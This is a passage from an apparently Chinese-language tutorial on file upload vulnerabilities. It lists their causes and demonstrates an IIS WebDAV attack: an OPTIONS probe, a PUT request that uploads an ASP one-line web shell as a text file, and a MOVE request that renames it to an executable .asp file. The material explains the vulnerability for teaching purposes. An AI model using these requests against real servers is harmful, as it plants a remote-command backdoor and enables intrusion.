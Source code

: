 
  
## 二、漏洞成因
  
导致文件上传的漏洞的原因较多，主要包括以下几类：
  

  
- 服务器配置不当
  
- 开源编辑器上传漏洞
  
- 本地文件上传限制被绕过
  
- 过滤不严或被绕过
  
- 文件解析漏洞导致文件执行
  
- 文件路径截断
  

  
1.服务器配置不当
  
当服务器配置不当时，在不需要上传页面的情况下便可导致任意文件上传，IIS服务器 相关put 方法漏洞参见下面描述：
  
对服务器发送OPTION包：
  
```
  
OPTIONS / HTTP/1.1
  
Host: www.xxx.com
  
```
  
若返回的HTTP响应头中带有PUT、MOVE等方法时则可以确定服务器开启了WebDAV。
  
此时用PUT上传一个SHELL，但SHELL后缀不可以是可执行文件后缀。
  
```
  
PUT /test.txt HTTP/1.1
  
Host: www.xxx.com
  
Content-Length: 23
  

  
<%eval request("a")%>
  
```
  
若服务器启用了“WebDAV”扩展，并且复选了“写入”，就可以写入txt文件了。
  
若服务器开启了“脚本资源访问”，可以用MOVE方法将txt后缀文件改成可执行文件的后缀。
  
```
  
MOVE /test.txt HTTP/1.1
  
Host: www.xxx.com
  
Destination: http://www.xxx.com/shell.asp
  
```
  